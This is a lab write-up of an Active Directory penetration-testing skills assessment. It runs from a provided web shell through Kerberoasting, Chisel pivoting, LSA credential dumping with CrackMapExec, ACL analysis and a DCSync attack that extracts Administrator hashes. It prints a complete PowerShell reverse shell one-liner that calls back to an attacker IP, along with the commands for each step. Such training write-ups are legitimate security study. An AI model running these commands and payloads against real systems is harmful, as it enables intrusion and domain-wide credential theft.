## Active Directory Enumeration & Attacks – Skills Assessment Part I Write-up

### Initial Access – Web Shell & Credentials

The challenge begins with initial access provided: a web shell and valid credentials. Navigating to `http://<target_ip>/uploads` in a browser reveals two files — one resembling a web reverse shell. After authenticating with the provided credentials, we gain command execution capabilities via PowerShell running as **NT AUTHORITY**.

The first task is to retrieve a flag from this access point, which can be done through simple enumeration.




### SPN Enumeration & Kerberoasting

The next objective is to retrieve the password of an account associated with the SPN `MSSQLSvc/SQL01.inlanefreight.local:1433`.

We can do a simple search for SPN account names and find needed.



To proceed, we need to perform Kerberoasting. This requires a proper reverse shell to facilitate our tool usage.

#### Establishing Reverse Shell

On our attacker machine:

```bash
nc -lvnp 6666
```

On the target (via web shell), we execute the following PowerShell command to establish a reverse shell:

```powershell
$client=New-Object Net.Sockets.TCPClient('10.10.15.249',6666);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

As a result, we got a shell.




#### Import PowerView and Kerberoast

With the reverse shell active, we import PowerView:

```powershell
. .\\PowerView.ps1
```

Then, search for the target SPN and request a TGS ticket:

```powershell
Get-DomainUser * -spn | select samaccountname

Get-DomainUser -Identity <SPN_account_name> | GetDomainSPNTicket -Format Hashcat
```





This results in a krb5tgs hash that we can crack offline.


#### Cracking the Hash

Save the hash to a file and run Hashcat using the appropriate mode for Kerberos TGS-REP hashes:



Once cracked, we gain credentials for the service account.


### File Access on MS01

Using the cracked service account credentials, we identify the MS01 host (IP: 172.16.6.50) via `ping MS01` command. 



We then mount a network share:

```powershell
net use Z: \\172.16.6.50\C$ /user:inlanefreight.local\<spn_account_name>
```



From here, we locate and read the required `flag.txt` file.


### Credential Dump via LSASS

To retrieve cleartext credentials from MS01, we use Chisel for port forwarding:

Host machine:

```bash
python3 -m http.server 7777
```

Target (pivot) machine:

1. Download Chisel server via the web shell and forward traffic to local SOCKS5 proxy.

	
	
2. Edit `/etc/proxychains.conf` to add `socks5 127.0.0.1 1080` string.

On the attack machine:
1. Connect to the server on pivot host via Chisel client:
	
	

2. Test the established connection and SPN-associated account rights on MS01 host:

	```bash
	sudo proxychains crackmapexec smb 172.16.6.50 -u <SPN_user> -p <SPN_pass>
	```
	
	

	If output shows **Pwn3d!**, the account has local administrator privileges.

3. Dump credentials:

	```bash
	sudo proxychains crackmapexec smb 172.16.6.50 -u <SPN_user> -p <SPN_pass> --lsa
	```
	
	
	
	This yields new credentials, including those of interest.


### Privilege Escalation via ACL Analysis

Now, we pivot to MS01 using xfreerdp via proxychains to analyze access control:

```bash
proxychains xfreerdp /v:172.16.6.50 /u:<domain_user> /p:'<password>' /drive:/path/to/PowerView.ps1,<drive_name>
```

Inside the RDP session, we launch PowerShell as administrator and explore the account:

```powershell
Import-Module .\PowerView.ps1

$sid = Convert-NameToSid <domain_user>

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```





We identify Replication permissions, indicating a potential DCSync or DCShadow attack.


### Domain Controller & Final Flag

The final task is to target DC01. A simple `ping DC01` reveals its IP.

Using impacket-secretsdump with the previously gathered domain credentials, perform DCsync attack:

```bash
sudo proxychains secretsdump.py -just-dc-user Administrator INLANEFREIGHT/<domain_user>:<password>@<dc01_ip>
```



This gives us access to the NTLM hashes and credentials of high-privilege Administrator account.

Using Evil-WinRM or PS Remoting (port 5985), we authenticate as the Domain Administrator, access their desktop, and retrieve the final flag.




## Summary of Techniques

This assessment demonstrated a full Active Directory attack chain involving:

- Initial access via web shell and PowerShell execution as NT AUTHORITY
- Establishing a reverse shell to gain interactive control
- Kerberoasting using PowerView and offline password cracking with Hashcat
- Accessing internal file shares using cracked service credentials
- Pivoting through MS01 using Chisel and proxychains
- Dumping LSASS credentials with CrackMapExec
- Privilege escalation via ACL analysis and replication rights
- DCSync attack to extract domain admin credentials
- Final access to the domain controller and retrieval of the Administrator's flag
